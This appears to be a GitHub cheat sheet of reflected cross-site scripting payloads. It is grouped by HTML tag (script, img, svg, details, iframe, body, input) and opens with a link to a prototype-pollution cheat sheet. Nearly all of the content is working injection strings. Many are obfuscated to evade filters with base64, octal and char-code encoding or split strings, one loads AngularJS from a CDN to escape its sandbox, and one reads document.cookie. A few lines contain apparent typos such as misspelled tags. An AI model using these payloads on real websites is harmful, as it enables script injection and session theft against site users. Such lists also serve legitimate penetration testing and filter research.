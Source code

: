 [Cheat Sheet](https://github.com/BlackFan/client-side-prototype-pollution)

---
## XSS Payload<br>
<span style="color:#21C587">&#35;</span><strong> Reflection XSS statement</strong><br>

```html
script tag
<scrit>void''??globalThis?.alert?.(...[0b1_0_1_0_0_1_1_1_0_0_1,],)</script>
<script>alert(1)</scipt>
<script>this["alert"](this["document"]["cookie"]);</script>
<script>onerror=alert;throw 1</script>
<script>{onerror=alert}throw 1</script>
<script src="data:;base64,YWxlcnQoMSk="></script>
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([1],alert)'></div>
%2sscript%2ualert()%2s/script%2u

img tag
<img src=x onerror=window.alert(1) >
<img src=x onerror=window['eva'+'l'](alert(1)) >
<img src=x onerror=_=alert,_(/xss/) >
<img src=x onerror=_='e'+'val',_(alert(1)) >

svg tag
%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
<svg onload=&#97&#108&#101&#114&#116&#40&#49&#41>
<svg/onload=setTimeout('\141\154\145\162\164\50\61\51')>
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<svg onx=() onload=window.alert?.()>
  
details tag
<details open ontoggle=top.alert(1)>
<details open ontoggle=top['prompt'](1)>
<details open ontoggle=eval('alert(1)') >
<details open ontoggle=eval(atob('YWxlcnQoMSk=')) >
<details open ontoggle=eval('\141\154\145\162\164\50\61\51') >
<details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >
  
iframe tag
<iframe onload=alert(1)>
<iframe onload=&#97&#108&#101&#114&#116&#40&#49&#41>
<iframe srcdoc="<img src=x:x onerror=alert(1)>" />
<iframe onload=location='javascri'.concat('pt:aler','t(1)')>
<iframe onload=location=['java','script:','alert(1)'].join("")>
<iframe src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+"></iframe>

body tag
<body onpageshow=alert(1)>
<body/onfocus=alert(1)>
<body/onload=alert(1)>
<body href=x %00 nonafterprint=confirm(document.domain) autofocus>
<body/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,49,41,60,47,115,99,114,105,112,116,62)) >
  
  
input tag
<input autofocus onfocus=alert(1)>
<input type=image src onerror=alert(1)>
<input onblur=alert(1) id=x><input autofocus>
<input onbeforecopy=alert(1) value="XSS" autofocus>
```